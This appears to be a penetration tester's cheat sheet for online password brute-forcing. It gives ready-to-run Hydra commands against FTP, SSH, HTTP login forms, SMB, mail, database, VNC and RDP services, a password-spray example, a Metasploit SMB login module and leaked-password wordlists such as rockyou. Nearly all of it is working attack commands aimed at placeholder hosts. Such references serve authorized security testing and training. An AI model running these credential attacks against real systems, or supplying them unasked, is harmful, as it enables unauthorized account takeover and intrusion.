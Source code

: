 
> [!NOTE] NOTE
> `Medusa` works the exact same way command wise

### Useful Wordlists
- /usr/share/seclists/Passwords/darkweb2017-top10000.txt
- ~/rockyou.txt
- 
### Common Services
FTP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt ftp://192.168.1.100
```
SSH
```shell
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt ssh://192.168.1.100
```
HTTP Authentication
```shell
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
HTTP GET/POST
```shell
hydra [options] target http-post-form "path:params:condition_string"

hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```
SMB
```bash
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smb://192.168.1.100
```
SMBv3
```bash
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
```
SMTP, POP3, IMAP
```shell 
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt smtp://mail.server.com
hydra -l user@adot8.com -P ~/opt/wordlists/2023-200_most_used_passwords.txt pop3://mail.server.com
hydra -l user@adot8.com-P ~/opt/wordlists/2023-200_most_used_passwords.txt imap://mail.server.com
```
MySQL, MSSQL
```shell 
hydra -l root -P ~/opt/wordlists/2023-200_most_used_passwords.txt mysql://192.168.1.100
hydra -l sa -P ~/opt/wordlists/2023-200_most_used_passwords.txt mssql://192.168.1.100
```
VNC, RDP
```shell
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt vnc://192.168.1.100
hydra -l admin -P ~/opt/wordlists/2023-200_most_used_passwords.txt rdp://192.168.1.100
```
### Additional Options
Target multiple targets (password spray scenario)
```shell
hydra -l root -p toor -M targets.txt ssh
```
Non standard port `-s`
```shell
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```
Web app login page, successful login code 302 (moved)
```shell
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```
Imagine youre testing `RDP` and you know the username is `Administrator` and the password consists of 6 to 8 characters...
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```